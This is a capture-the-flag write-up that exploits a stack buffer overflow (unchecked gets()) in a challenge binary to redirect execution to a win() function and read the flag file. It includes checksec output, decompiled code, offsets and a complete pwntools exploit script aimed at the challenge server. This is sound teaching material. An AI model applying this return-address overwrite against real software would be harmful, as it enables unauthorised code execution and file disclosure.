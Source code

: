 
## Initial checksec Analysis

> checksec pwn-pas-ouf

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
With these settings, the binary is vulnerable to a classic buffer 
overflow since there's no stack canary, and the memory addresses are fixed.


When executed, the program displays “Hello World!” and then waits for 
user input.

Using [Binary Ninja Cloud](https://cloud.binary.ninja/), we examine the 
decompiled code and find that after printing `Hello World!`, the program
reads input into a buffer without checking the length, which hints at a 
potential buffer overflow vulnerability. 

| Address  | Name |
| --------------- |
| 0x4011a0 | win  |

```
void win() __noreturn
004011b6  FILE* fp = fopen(&file_to_read, &data_402004)
004011b6  
004011c3  while (true)
004011c3      char rax = fgetc(fp)
004011c3      
004011d1      if (rax == 0xffffffff)
004011d1          break
004011d1      
004011db      putchar(rax)
004011db  
004011e7  exit(0)
004011e7  noreturn

int64_t set_file_to_read(int64_t arg1)
00401216  return memcpy(&file_to_read, arg1, 0x80)

int32_t main(int32_t argc, char** argv, char** envp)
0040122b  int32_t var_c = 0
00401232  int32_t argc_1 = argc
00401235  char** argv_1 = argv
0040124f  setvbuf(*stdout, nullptr, 2, 0)
00401267  void var_98
00401267  memcpy(&var_98, "readme.md", 0x80)
0040127f  void var_118
0040127f  memcpy(&var_118, "Hello World!", 0x80)
0040128b  puts(&var_118)
00401297  int64_t rax
00401297  rax.b = 0
00401299  gets(&var_118)
004012a5  puts(&var_118)
004012b1  set_file_to_read(&var_98)
004012c0  return 0
```

We created a 500-character cyclic pattern using cyclic and entered it 
to test for a buffer overflow. After observing a crash with a modified 
return address, the presence of an overflow vulnerability was confirmed.

Further analysis revealed:

- Offset to `return address`: 280 bytes.
- Offset to set the `rdi` register (to specify the file to read): 128 bytes.


Exploitation Strategy

1. Controlling the Return Address: 
The 280-byte offset allows us to overwrite the return address, 
redirecting execution to `win()`.
2. Setting the `file_to_read` argument: 
Using the 128-byte offset, we can set the file to be read 
by controlling the `rdi` register.


The final payload will contain:

- 280 characters to fill the buffer.
- the address of the `win()` function to overwrite the return address, 
forcing the program to call it.
- the file `flag` as an argument, set at the 128-byte offset.


Flag
```
b'\n'
b'\n'
b'4T${p4$_0uF_Ou_tr\xe2\x82\xacs_ouFF}\n'
```

```python
import socket
import ssl
from pwn import *

# proc = process("./pwn-pas-ouf")
# proc = gdb.debug("./pwn-pas-ouf", '''
#     break *0x4012a5
#     continue
# ''')

host = "main-5000-pwn-pas-ouf-03a2dd8bc54f67f9.ctf.4ts.fr"
port = 52525

# remote connection
proc = remote(host, port)
sock = proc.sock

# wrap the socket with SSL
context = ssl.create_default_context()
ssl_sock = context.wrap_socket(sock, server_hostname=host)

# remote connection to use the SSL socket
proc.sock = ssl_sock

win_address = 0x4011a0
payload = 128 * p8(0) + b'flag' + (280 - 128 - 4) * p8(0) + p64(win_address)

proc.sendlineafter(b"Hello World!", payload)
response = proc.recvline()
print(response)
response = proc.recvline()
print(response)
response = proc.recvline()
print(response)

proc.interactive()
```